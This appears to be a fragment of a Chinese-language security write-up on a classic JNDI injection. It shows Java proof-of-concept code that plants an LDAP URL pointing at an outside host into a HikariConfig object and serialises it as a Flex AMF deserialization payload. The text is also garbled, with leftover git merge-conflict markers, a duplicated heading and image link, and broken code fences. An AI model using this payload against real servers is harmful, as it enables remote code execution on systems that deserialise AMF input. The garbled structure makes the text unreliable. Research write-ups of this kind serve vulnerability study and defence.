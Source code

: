[![](assets/1710899979-5e5bda2a2a255abbc5bee5fbd489f447.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304191346-44ceed9e-da18-1.png)

经典的 JNDI 注入

```plain
=======
[![](assets/1710212142-5e5bda2a2a255abbc5bee5fbd489f447.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304191346-44ceed9e-da18-1.png)

经典的 JNDI 注入

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
package com.example;

import com.zaxxer.hikari.HikariConfig;
import flex.messaging.io.SerializationContext;
import flex.messaging.io.amf.*;
import flex.messaging.validators.ClassDeserializationValidator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Demo {
    public static void main(String[] args) throws Exception {

        HikariConfig config = new HikariConfig();
        Field f = HikariConfig.class.getDeclaredField("metricRegistry");
        f.setAccessible(true);
        f.set(config, "ldap://100.109.34.110:1389/x");

        byte[] data = serialize(config);
        deserialize(data);
        Files.write(Paths.get("/Users/exp10it/payload.amf"), data);
    }
```
